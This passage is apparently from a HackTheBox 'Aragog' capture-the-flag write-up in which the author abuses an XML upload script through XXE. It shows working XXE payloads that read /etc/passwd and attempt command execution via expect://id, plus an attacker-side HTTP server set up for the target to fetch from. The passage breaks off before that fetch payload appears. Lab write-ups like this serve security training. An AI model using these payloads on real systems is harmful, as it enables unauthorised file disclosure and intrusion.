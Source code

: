 We can see the file upload was sucssesful, the file we found from the FTP is what this php script is looking for. It waits for XML files with an `<subnet_mask>` entity to prase and calculate the number of hosts per the subnet value.

I'm thinking [XXE](https://portswigger.net/web-security/xxe), `HackTricks` has a nice [cheat-sheet overview](https://book.hacktricks.xyz/pentesting-web/xxe-xee-xml-external-entity) with different payloads to try.

At first I tried the following payload:

```xml
<!DOCTYPE foo [<!ENTITY example SYSTEM "/etc/passwd"> ]>
<details>
    <subnet_mask>&example;</subnet_mask>
    <test>&example;</test>
</details>
```

![success-11](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Aragog/img/success-11.png)

This gives us `/etc/passwd`. Next I tried to execute a command using the following payload:

```xml
<!DOCTYPE root [<!ENTITY foo SYSTEM "expect://id">]>
<details>
    <subnet_mask>&foo;</subnet_mask>
    <test>
</test>
</details>
```
  
This didnt work. Probably because the PHP `expect` module isn't loaded on the target. So instead, I decdied to try and send the target to fetch a remote file from my Kali machine. 

I created a simple text file with `echo "pwned" > myfile.txt` and hosted it via a python server with `python3 -m http.server 80`. Then I used the following payload the fetch the file:
